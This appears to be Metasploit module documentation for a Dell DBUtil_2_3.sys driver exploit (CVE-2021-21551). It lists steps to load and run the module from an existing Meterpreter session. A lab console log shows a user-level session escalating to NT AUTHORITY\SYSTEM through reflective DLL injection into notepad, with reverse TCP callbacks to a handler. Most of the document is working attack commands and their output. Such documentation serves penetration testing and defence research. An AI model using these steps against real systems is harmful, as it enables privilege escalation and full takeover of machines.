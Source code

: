 ## Vulnerable Application
The DBUtil_2_3.sys driver distributed by Dell exposes an unprotected IOCTL interface that can be abused by an attacker
read and write kernel-mode memory.

## Verification Steps

1. Start msfconsole
1. Get a Meterpreter session on a vulnerable host
1. Do: `use exploit/windows/local/cve_2021_21551_dbutil_memmove`
1. Set the `SESSION` and `PAYLOAD` options
1. Do: `run`
1. You should get a shell.

## Scenarios

### Windows 10 Version 1909 Build 18363.418 x64

```
msf6 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 192.168.159.128:4444 
[*] Sending stage (200262 bytes) to 192.168.159.79
[*] Meterpreter session 2 opened (192.168.159.128:4444 -> 192.168.159.79:57013) at 2021-05-12 16:10:10 -0400

meterpreter > sysinfo
Computer        : DESKTOP-RTCRBEV
OS              : Windows 10 (10.0 Build 18363).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 5
Meterpreter     : x64/windows
meterpreter > getuid
Server username: DESKTOP-RTCRBEV\Alice Liddle
meterpreter > getsystem
[-] priv_elevate_getsystem: Operation failed: Access is denied. The following was attempted:
[-] Named Pipe Impersonation (In Memory/Admin)
[-] Named Pipe Impersonation (Dropper/Admin)
[-] Token Duplication (In Memory/Admin)
[-] Named Pipe Impersonation (RPCSS variant)
meterpreter > run exploit/windows/local/cve_2021_21551_dbutil_memmove

[*] Started reverse TCP handler on 192.168.159.128:4444 
[*] Executing automatic check (disable AutoCheck to override)
[+] The target appears to be vulnerable.
[*] Launching notepad to host the DLL...
[+] Process 5212 launched.
[*] Reflectively injecting the DLL into 5212...
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Sending stage (200262 bytes) to 192.168.159.79
[*] Meterpreter session 3 opened (192.168.159.128:4444 -> 192.168.159.79:57015) at 2021-05-12 16:12:43 -0400
[*] Session 3 created in the background.
meterpreter > sessions 3
[*] Backgrounding session 2...
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter >
```
